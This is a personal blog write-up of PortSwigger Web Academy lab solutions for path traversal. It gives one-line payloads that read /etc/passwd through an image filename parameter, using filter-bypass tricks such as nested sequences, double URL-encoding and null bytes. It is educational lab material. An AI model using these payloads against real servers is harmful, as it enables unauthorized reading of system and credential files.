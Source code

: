 ```yaml
---
title: Directory Traversal
author:
  name: eng4ge
  link: https://github.com/an9k0r
date: 2022-10-02 09:00:00 +0200
categories: [Web Application, Directory Traversal]
tags: [Notes, Web Application, Portswigger]
math: true
mermaid: true
image:
  src: 
  width: 694
  height: 515
  alt: image alternative text
---
```

# Intro
This post/writeup is all about the Directory Traversal vulnerabilities.

I'll be using primarily [Portswigger Web Academy](https://portswigger.net/web-security/file-path-traversal) Labs, but i do intent do throw other labs and writeups here as well.

## TOC

- [Intro](#intro)
  - [TOC](#toc)
- [File path traversal, simple case](#file-path-traversal-simple-case)
- [File path traversal, traversal sequences blocked with absolute path bypass](#file-path-traversal-traversal-sequences-blocked-with-absolute-path-bypass)
- [File path traversal, traversal sequences stripped non-recursively](#file-path-traversal-traversal-sequences-stripped-non-recursively)
- [File path traversal, traversal sequences stripped with superfluous URL-decode](#file-path-traversal-traversal-sequences-stripped-with-superfluous-url-decode)
- [File path traversal, validation of start of path](#file-path-traversal-validation-of-start-of-path)
- [File path traversal, validation of file extension with null byte bypass](#file-path-traversal-validation-of-file-extension-with-null-byte-bypass)


# File path traversal, simple case
>  This lab contains a file path traversal vulnerability in the display of product images.
> 
> To solve the lab, retrieve the contents of the /etc/passwd file. 

If we check the source, we see that images will be loaded through parameter. 

![picture 120](/assets/images/c597993ff6131a61361fa51d4c5bc275921f2a63919e9c24b9418c206759eec9.png)  

If not sanitized corectly, we'll have a directory traversal so let's have a try.

![picture 121](/assets/images/fd668e2eee1f824ea9b6a443dd6e06fb185286db374724535a2a48e2b2337cbe.png)  

Lab has been solved:

![picture 122](/assets/images/846935903fdd2bfb47792706829326402fe31cccaca05d92c573af36fee43c9e.png)  

# File path traversal, traversal sequences blocked with absolute path bypass

>  This lab contains a file path traversal vulnerability in the display of product images.
> 
> The application blocks traversal sequences but treats the supplied filename as being relative to a default working directory.
> 
> To solve the lab, retrieve the contents of the /etc/passwd file. 

Solution - Absolute Path: `/image?filename=/etc/passwd`

![picture 123](/assets/images/284ad5654d2b11062c08b8a45057e13117b96999e46b227114fac5d22138cb2b.png)  

# File path traversal, traversal sequences stripped non-recursively
>  This lab contains a file path traversal vulnerability in the display of product images.
> 
> The application strips path traversal sequences from the user-supplied filename before using it.
> 
> To solve the lab, retrieve the contents of the /etc/passwd file. 

Solution: `/image?filename=....//....//...//....//etc/passwd`

![picture 124](/assets/images/e2b426de55767b8c9ae361bbb734510ada8a9b733bbaac1a4e18a59398779476.png)  

# File path traversal, traversal sequences stripped with superfluous URL-decode
>  This lab contains a file path traversal vulnerability in the display of product images.
> 
> The application blocks input containing path traversal sequences. It then performs a URL-decode of the input before using it.
> 
> To solve the lab, retrieve the contents of the /etc/passwd file. 

Solution: `/image?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd`

![picture 125](/assets/images/7a8ee885d46ada4e07c55672470647193f56112a0f0c72b3cedd25c32dad8bc1.png)  

# File path traversal, validation of start of path
>  This lab contains a file path traversal vulnerability in the display of product images.
> 
> The application transmits the full file path via a request parameter, and validates that the supplied path starts with the expected folder.
> 
> To solve the lab, retrieve the contents of the /etc/passwd file. 

Solution: `/image?filename=/var/www/images/../../../etc/passwd`

![picture 126](/assets/images/67aacacdae05d85c63bbca9bc9a37f9b303b44e45b66ba7812b5617a83b2204a.png)  

PS: I'm not sure how common this vulnerability is!

# File path traversal, validation of file extension with null byte bypass
>  This lab contains a file path traversal vulnerability in the display of product images.
> 
> The application validates that the supplied filename ends with the expected file extension.
> 
> To solve the lab, retrieve the contents of the /etc/passwd file. 

Solution: `/image?filename=../../../etc/passwd%00.png`

![picture 127](/assets/images/4cbb65998eec18a495dc02c6f1fbc0976e89d7e2acdc140fe6539d2d47119925.png)  
